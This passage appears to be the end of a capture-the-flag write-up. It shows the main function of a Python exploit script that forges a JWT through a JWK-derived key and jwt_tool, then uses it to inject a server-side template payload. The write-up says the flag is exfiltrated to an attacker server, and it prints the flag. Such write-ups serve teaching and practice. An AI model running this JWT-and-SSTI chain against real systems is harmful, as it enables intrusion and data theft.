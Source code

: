 ```python
        return

    # Step 4: Recreate public key PEM from JWK
    rsa_public_key_from_jwk(jwk)

    # Step 5: Modify JWT claim (inject payload) using jwt_tool
    modified_jwt = modify_jwt_with_tool(jwt_token)
    if not modified_jwt:
        print("[!] Failed to modify JWT using jwt_tool.")
        return

    # Step 6: Test SSTI injection by sending the modified JWT
    test_ssti(modified_jwt)

if __name__ == "__main__":
    main()
```

{% endcode %}

The attacker server will receive a request containing the base64-encoded flag.

Flag: `INTIGRITI{h3y_y0u_c4n7_ch41n_7h053_vuln5_l1k3_7h47}`
